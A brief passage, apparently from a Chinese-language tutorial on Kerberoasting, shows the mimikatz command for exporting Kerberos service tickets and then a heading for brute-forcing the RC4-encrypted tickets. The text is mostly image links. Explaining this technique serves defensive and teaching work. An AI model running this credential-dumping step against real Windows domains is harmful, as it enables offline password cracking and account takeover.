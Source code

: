 [![](assets/1699492330-0097d8392fbef790c4853247d7b0ac4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162622-7fe1129a-7e10-1.png)  
3、导出TGS

```plain
mimikatz # kerberos::list /export
```

[![](assets/1699492330-091772eaecc238649264eb4fbaae56c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162646-8de48296-7e10-1.png)  
4、暴力破解(选取RC4的来破解)
